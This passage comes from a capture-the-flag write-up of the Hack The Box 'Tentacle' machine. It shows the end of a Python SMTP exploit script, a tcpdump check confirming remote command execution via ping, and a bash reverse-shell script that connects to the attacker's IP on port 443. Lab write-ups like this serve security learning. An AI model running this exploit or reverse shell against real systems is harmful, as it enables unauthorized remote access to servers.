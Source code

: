 ```python

print('[*] Payload sent')
s.send(b'RCPT TO:<j.nakazawa@realcorp.htb>\r\n')
s.recv(1024)
s.send(b'DATA\r\n')
s.recv(1024)
s.send(b'\r\nxxx\r\n.\r\n')
s.recv(1024)
s.send(b'QUIT\r\n')
s.recv(1024)
print('[*] Done')
```

Now let's test the script by sending a ping request back to our local machine.
Start a TCPdump listener:
```
┌──(kali㉿kali)-[~]
└─$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes

```
Next, run the script with the ping command:
```
┌──(kali㉿kali)-[~/Documents/Other/HacktheBox/tentacel]
└─$ sudo proxychains python3 47984.py 10.241.251.113 25 'ping -c 4 10.10.15.147'
```
Let's check if TCPdump captured any ICMP traffic: 
```
┌──(kali㉿kali)-[~]
└─$ sudo tcpdump -i tun0 icmp                       
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
10:28:14.689672 IP tentacle.htb > 10.10.14.43: ICMP echo request, id 30, seq 1, length 64
10:28:14.689697 IP 10.10.14.43 > tentacle.htb: ICMP echo reply, id 30, seq 1, length 64
10:28:15.692096 IP tentacle.htb > 10.10.14.43: ICMP echo request, id 30, seq 2, length 64
10:28:15.692115 IP 10.10.14.43 > tentacle.htb: ICMP echo reply, id 30, seq 2, length 64
10:28:16.693677 IP tentacle.htb > 10.10.14.43: ICMP echo request, id 30, seq 3, length 64
10:28:16.693731 IP 10.10.14.43 > tentacle.htb: ICMP echo reply, id 30, seq 3, length 64
10:28:17.695716 IP tentacle.htb > 10.10.14.43: ICMP echo request, id 30, seq 4, length 64
10:28:17.695735 IP 10.10.14.43 > tentacle.htb: ICMP echo reply, id 30, seq 4, length 64
```
Sweet! Because we received feedback from the mail server, we can try a reverse shell!

I tried to send a reverse shell directly, however this did not seem to work. 
My guess is that any use of bad characters gets filtered out, rendering the payload useless. So instead I used a python webserver to get the shell on the target machine.

Let's create a simple shell-script chimpey.sh: 
```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.43/443 0>&1
```
